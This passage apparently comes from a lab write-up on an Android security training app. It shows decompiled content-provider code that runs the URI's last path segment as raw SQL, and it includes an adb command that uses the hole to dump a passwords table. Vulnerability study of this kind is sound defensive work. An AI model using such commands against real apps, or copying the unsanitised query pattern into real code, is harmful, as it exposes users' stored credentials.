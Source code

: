 ```kotlin
case 5:
    SupportSQLiteDatabase supportSQLiteDatabase13 = null;
    String lastPathSegment4 = uri.getLastPathSegment();
    if (lastPathSegment4 == null) {
        lastPathSegment4 = "";
    }
    try {
        SupportSQLiteDatabase supportSQLiteDatabase14 = this.database;
        if (supportSQLiteDatabase14 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("database");
        } else {
            supportSQLiteDatabase13 = supportSQLiteDatabase14;
        }
        return supportSQLiteDatabase13.query(lastPathSegment4);
    } catch (Exception e) {
        Log.e("PasswordProvider", "SQL Error: " + e.getMessage(), e);
        MatrixCursor matrixCursor5 = new MatrixCursor(new String[]{"error"});
        matrixCursor5.addRow(new String[]{"SQL Error: " + e.getMessage()});
        return matrixCursor5;
    }
```

## The Critical Flaw

The vulnerability is **straightforward** - the code takes user input from the URI's last path segment and **passes it directly** to the database query method:

1. **No input sanitization**
2. **No parameterized queries**
3. **Direct SQL execution**
4. **Full database access**

This is essentially a **backdoor** that allows anyone to execute arbitrary SQL commands against the database.

## Exploitation

The exploitation is surprisingly simple. Using ADB, we can directly query the Content Provider:

```bash
adb shell content query --uri "content://com.eightksec.droidcave.provider/execute_sql/SELECT%20%2A%20FROM%20passwords"
```

This command:

- Targets the Content Provider authority `com.eightksec.droidcave.provider`
- Uses the `/execute_sql/` path to trigger Case 5
- URL-encodes the SQL query `SELECT * FROM passwords`

> Pro Tip: Always encode spaces and special characters as terminals can deal with them differently.

## The BLOB Mystery
